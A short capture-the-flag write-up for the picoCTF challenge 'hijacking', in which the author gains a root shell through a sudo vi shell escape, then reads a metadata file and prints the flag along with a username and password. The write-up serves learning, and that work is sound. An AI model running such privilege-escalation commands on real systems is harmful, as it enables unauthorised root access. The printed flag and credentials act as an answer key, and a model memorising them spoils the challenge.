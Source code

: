 # **hijacking**

## **Overview:**
---
Category: Binary Exploitation

Points: 200

## **Description**
---
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Additional details will be available after launching your challenge instance.

## **Hints**
None.

## **Approach**
So, google searching using python for privilege escalation in linux and i found an interesting web to solve this. I used 'vi'. It can be used to break out from restricted environments by spawning an interactive system shell.

> Use this command: sudo vi -c ':!/bin/sh' /dev/null 

Then enter the password and it got me a root shell! 

```
cd /
cd challenge
cat metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}#
```


## **Flag**
---
>**picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}**










